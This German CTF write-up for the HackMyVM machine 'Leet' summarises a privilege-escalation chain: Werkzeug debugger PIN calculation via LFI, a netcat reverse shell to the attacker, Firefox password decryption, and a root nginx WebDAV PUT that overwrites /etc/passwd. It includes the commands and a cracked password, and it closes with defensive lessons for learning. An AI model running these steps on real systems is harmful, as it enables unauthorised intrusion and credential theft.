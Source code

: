 # Leet - HackMyVM - Hard

**Schwierigkeitsgrad:** Hard 🔴

---

## ℹ️ Maschineninformationen

*   **Plattform:** HackMyVM
*   **VM Link:** [https://hackmyvm.eu/machines/machine.php?vm=Leet](https://hackmyvm.eu/machines/machine.php?vm=Leet)
*   **Autor:** DarkSpirit

![Leet Machine Icon](Leet.png)

---

## 🏁 Übersicht

Dieser Bericht dokumentiert den Penetrationstest der virtuellen Maschine "Leet" von HackMyVM. Das Ziel war die Erlangung von Systemzugriff und die Ausweitung der Berechtigungen bis auf Root-Ebene. Die Maschine wies kritische Schwachstellen auf, darunter eine Local File Inclusion (LFI), die zur Kompromittierung eines Werkzeug Debuggers und initialer Remote Code Execution (RCE) als Benutzer `www-data` führte. Die Privilegien-Eskalation wurde über eine misskonfigurierte Sudo-Berechtigung für den `micro`-Editor ausgenutzt, um SSH-Zugriff als Benutzer `riva` zu erlangen, gefolgt von einer weiteren Sudo-Schwachstelle für Nginx, die über das Auslesen eines Passworts aus Firefox-Daten und das Überschreiben der `/etc/passwd` Datei zur Erlangung von Root-Rechten führte.

---

## 📖 Zusammenfassung des Walkthroughs

Der Pentest gliederte sich in folgende Hauptphasen:

### 🔎 Reconnaissance

*   Identifizierung der Ziel-IP (192.168.2.44) im lokalen Netzwerk mittels `arp-scan`.
*   Hinzufügen des Hostnamens `leet.hmv` zur lokalen `/etc/hosts`.
*   Umfassender Portscan (`nmap`) zur Identifizierung offener Ports (Port 22 - SSH OpenSSH 9.2p1, Port 7777 - HTTP Werkzeug httpd 3.0.1) und OS-Erkennung.
*   Prüfung der HTTP-Header auf Port 7777 mittels `curl`.

### 🌐 Web Enumeration

*   Automatisiertes Scanning des Webservers auf Port 7777 mit `nikto`, der fehlende Sicherheits-Header, erlaubte HTTP-Methoden (`POST, GET, OPTIONS, HEAD`) und interessante Pfade wie `/console` und `/#wp-config.php#` aufdeckte.
*   Verzeichnis-Brute-Force mit `gobuster` identifizierte den Endpunkt `/download` (Status: 500).
*   Analyse des `/download`-Endpunkts zeigte einen detaillierten Werkzeug Debugger Traceback und das Vorhandensein des Debugger-SECRETs im Quellcode.
*   Entdeckung einer Local File Inclusion (LFI) Schwachstelle im `filename`-Parameter von `/download`, die eine Umgehung der Path-Validation mittels Verzeichnis-Traversal ermöglichte.

### 💻 Initialer Zugriff

*   Ausnutzung der LFI-Schwachstelle zum Auslesen von `/etc/passwd` und `/etc/machine-id` zur Sammlung von Systeminformationen.
*   Umrechnung der MAC-Adresse in einen Integer-Wert.
*   Zusammenstellung aller notwendigen Bausteine (Username `www-data`, Modulname, App-Name, App-Pfad, MAC-Integer, Machine-ID, Debugger SECRET) zur Berechnung des Werkzeug Debugger PINs.
*   Erstellung und Ausführung eines Python-Skripts (`pin_calc.py`) zur Berechnung des Debugger PINs (`142-855-714`).
*   Eingabe des berechneten PINs in die Werkzeug Debugger Konsole zur Freischaltung der interaktiven Python-Konsole.
*   Ausführung von Python-Code (`import os; os.system(...)`) in der Konsole zur Bestätigung der Berechtigungen (`www-data`) und Prüfung auf verfügbare Tools (`which nc`).
*   Initiierung einer Reverse Shell zum Angreifer-System mittels `nc -e /bin/bash ...` über die freigeschaltete Debugger-Konsole.
*   Erfolgreiche Erlangung einer stabilen Shell als Benutzer `www-data`.

### 📈 Privilege Escalation

*   Von der `www-data` Shell: Prüfung der `sudo`-Berechtigungen (`sudo -l`). Gefunden: `(riva) NOPASSWD: /usr/bin/micro`.
*   Enumeration des Home-Verzeichnisses von Benutzer `riva` (`ls -la /home/riva/`). Die Datei `user.txt` und das `.ssh` Verzeichnis wurden identifiziert.
*   Übertragung des Firefox-Profils von `riva` auf das Angreifer-System mittels `scp`.
*   Nutzung von `firefox_decrypt.py` zum Auslesen der im Firefox-Profil gespeicherten Passwörter. Dabei wurde das Passwort für Benutzer `riva` (`PGH$2r0co3L5QL`) gefunden.
*   Ausnutzung der `sudo` Berechtigung für `/usr/bin/micro` als `riva` (`sudo -u riva /usr/bin/micro /home/riva/.ssh/authorized_keys`) und Einfügen des öffentlichen SSH-Schlüssels des Angreifers in die `authorized_keys`-Datei.
*   Erfolgreiche passwortlose Anmeldung per SSH als Benutzer `riva`.
*   Von der `riva` Shell: Erneute Prüfung der `sudo` Berechtigungen (`sudo -l`) bestätigte den Eintrag `(root) /usr/sbin/nginx`, wofür nun das bekannte Passwort von `riva` verwendet werden konnte.
*   Erstellung einer bösartigen Nginx-Konfigurationsdatei (`nginx_pwn.conf` im schreibbaren `/tmp` Verzeichnis), die Nginx anweist, als `root` zu laufen, das System-Root-Verzeichnis (`/`) als Webroot zu verwenden und die WebDAV `PUT` Methode auf Port 4448 zu aktivieren (`user root; listen 4448; root /; dav_methods PUT;`).
*   Starten der bösartigen Nginx-Instanz mit Root-Rechten mittels `sudo -u root /usr/sbin/nginx -c /tmp/nginx_pwn.conf` unter Verwendung des Passworts von `riva`.
*   Erstellung einer modifizierten `/tmp/neue_passwd` Datei, die eine Kopie der Originaldatei sowie einen neuen Eintrag für Benutzer `dark` mit UID 0, GID 0 und einem bekannten Passwort enthält.
*   Ausnutzung der Nginx WebDAV PUT-Fähigkeit (laufend als Root auf Port 4448) zum Überschreiben der Datei `/etc/passwd` auf dem Zielsystem mit der modifizierten Datei (`curl -X PUT --data-binary @/tmp/neue_passwd http://127.0.0.1:4448/etc/passwd`).
*   Anmeldung als neuer Root-Benutzer `dark` mittels `su dark`.
*   Erfolgreiche Erlangung einer Root-Shell.

### 🚩 Flags

*   **User Flag:** Gefunden in `/home/riva/user.txt`
    ` [User Flag Wert hier einfügen] ` *(Hinweis: Der Wert der User Flag war im bereitgestellten Text nicht enthalten, nur der Speicherort.)*
*   **Root Flag:** Gefunden in `/root/r007_fl46.7x7`
    ` ca169772acb099a02ebab8da1d9070ea `

---

## 🧠 Wichtige Erkenntnisse

*   **Werkzeug Debugger Schwachstelle:** Die PIN-basierte Authentifizierung des Debuggers ist unsicher, wenn die zur PIN-Berechnung benötigten Systeminformationen (Username, Pfade, MAC, Machine-ID, SECRET) kompromittiert werden können. Ein aktivierter Debugger in Produktionsumgebungen ist ein kritisches RCE-Risiko.
*   **Local File Inclusion (LFI):** Eine LFI-Schwachstelle ermöglicht das Auslesen beliebiger Dateien und kann weitreichende Folgen haben (Informationslecks, Bausteine für andere Angriffe wie hier die Debugger-PIN-Berechnung). Strikte Input-Validierung und das Prinzip der geringsten Rechte sind essenziell.
*   **Unsichere Sudo-Konfigurationen:** `NOPASSWD`-Einträge oder die Erlaubnis, leistungsstarke Binaries (wie Editoren oder Webserver) mit erhöhten Rechten auszuführen, stellen direkte Privilegien-Eskalationspfade dar, insbesondere wenn die Passwörter der Benutzer kompromittiert werden können oder die Binaries manipulierbar sind.
*   **Passwort-Speicherung in Browsern:** Ungeschützte Passwörter in Browserprofilen stellen ein erhebliches Sicherheitsrisiko dar. Ein kompromittiertes Benutzerkonto kann schnell zur Kompromittierung weiterer Dienste oder erhöhter Berechtigungen führen, wenn Passwörter wiederverwendet oder in Browsern gespeichert werden.
*   **Nginx Fehlkonfiguration:** Das Starten von Nginx mit Root-Rechten, das Setzen des Webroots auf `/` und das Aktivieren von Methoden wie `PUT` kann das gesamte Dateisystem einem Angreifer aussetzen und direkten Schreibzugriff auf kritische Systemdateien ermöglichen.

---

## 📄 Vollständiger Bericht

Eine detaillierte Schritt-für-Schritt-Anleitung, inklusive Befehlsausgaben, Analyse, Bewertung und Empfehlungen für jeden Schritt, finden Sie im vollständigen HTML-Bericht:

[**➡️ Vollständigen Pentest-Bericht hier ansehen**](https://alientec1908.github.io/Leet_HackMyVM_Hard/)

---

*Berichtsdatum: 15. Juni 2025*
*Pentest durchgeführt von DarkSpirit*
